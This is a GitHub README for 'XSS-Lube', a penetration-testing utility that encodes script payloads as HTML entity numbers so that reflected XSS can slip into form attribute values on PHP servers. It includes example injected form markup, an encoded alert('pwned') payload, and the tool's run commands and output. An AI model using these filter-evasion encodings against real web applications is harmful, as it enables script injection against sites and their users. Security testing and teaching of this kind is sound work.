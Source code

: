 # XSS-Lube

A tool to assist penetrating pages with XSS code that needs to find its way into HTML attributes.

At times it can be quite challenging to inject XSS code when the code's contents will be interpreted as HTML. This is particularly true in server-side reflected XSS that involves exploitation of an HTML attributes which can require some fairly tedious string manipulation. In cases where HTML you're in an HTML element and manipulating an attribute, you'll not want certain reserved characters to be interpreted as HTML characters. 

## Conditions of Success
To date, this has been tested against PHP servers where form data is reflected on POST. Additional uses are yet to be tested.

### Example Problem
This code will break due to the combination of use of several reserved characters and some code being interpreted as a string literal. 
```html
<form action="/action_page.php" method="POST">
    <input id="password" name="password" type="password" value="<script>alert("pwned");</script>" />
    <input type="submit" value="Submit">
</form>
```
The below will work to a limited degree, but only if you're directly manipulating the page. Otherwise, the injected script will not be received as input to the server and reflected back. This is becuase `...value=""/>` will be rendered literally before the script is reached and you'll only post an empty string to the server. 
```html
<form action="/action_page.php" method="POST">
    <input id="password" name="password" type="password" value=""/><script>alert("pwned");</script>"/>
    <input type="submit" value="Submit">
</form>
```
What we need is to send a string literal to the server that when reflected will be a complete set of generated code characters. One can manually fiddle with these inputs by mapping out characters to their HTML Number Entities. For example: 
```html
<form action="/action_page.php" method="POST">
    <input id="password" name="password" type="password" value=&#34;&#47;&#62;&#13;&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#13;&#32;&#32;&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#112;&#119;&#110;&#101;&#100;&#33;&#34;&#41;&#59;&#13;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#13;&#60;&#13;/>
    <input type="submit" value="Submit">
</form>
```
This should work, and when reflected and re-rendered these HTML Entity Numbers will be translated into HTMl characters. 

But that's quite tedious, especially for longer programs. Ideally, you'll get your reflected XSS exploit working with minimal struggle in the domain of string manipulation so you can save your time working out other technical problems.

## XSS-Lube to the Rescue
This tool will take a cleverly crafted text document and convert it's contents into [HTML Entity](https://developer.mozilla.org/en-US/docs/Glossary/Entity) Numbers, thereby circumventing some cases in which otherwise valid exploits are hampered by how a character is handled by the server or HTML renderer.

**Dependencies**: NodeJS - consider installing the [Node Version Manager (NVM)](https://github.com/nvm-sh/nvm) to resolve this dependency.

## Example Usage

Example (test.html):

```html
<script>
  alert("pwned!");
</script>
```

Run the following code:
```sh
npm run start test.html
```
Or, with Yarn:
```sh
yarn start test.html
```

And then observe the output:

```text
ub3rl33t@kali:~$ yarn start test.html

===============================================================
██╗  ██╗███████╗███████╗      ██╗     ██╗   ██╗██████╗ ███████╗
╚██╗██╔╝██╔════╝██╔════╝      ██║     ██║   ██║██╔══██╗██╔════╝
 ╚███╔╝ ███████╗███████╗█████╗██║     ██║   ██║██████╔╝█████╗
 ██╔██╗ ╚════██║╚════██║╚════╝██║     ██║   ██║██╔══██╗██╔══╝
██╔╝ ██╗███████║███████║      ███████╗╚██████╔╝██████╔╝███████╗
╚═╝  ╚═╝╚══════╝╚══════╝      ╚══════╝ ╚═════╝ ╚═════╝ ╚══════╝
===============================================================
TEST.HTML - Text to HTML Entity Number for XSS:
---------------------------(start)-----------------------------
&#60;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#13;&#32;&#32;&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#112;&#119;&#110;&#101;&#100;&#33;&#34;&#41;&#59;&#13;&#60;&#47;&#115;&#99;&#114;&#105;&#112;&#116;&#62;&#13;
---------------------------(end)-----------------------------
```

The string of HTML Entity Numbers can be used in place of cumbersome characters in your exploit.

## Caution
As always, there is a lot of nuance in exploiting vulnerable web applications. And you have to gain and understanding of the environment. This tool will not work well in all cases. And, encoded text put into an input field will behave differently than text embedded into a page, etc. So, please temper your expectations. ^_^

## Obligatory Warning
Hacking is illegal, this tool is not intended for illegal activity and the author cannot be held responsible for such use. Please use responsibly either in your own home lab or for legitimate work where you've required established satisfactory legal, business, and moral grounds to perform any penetration testing. 
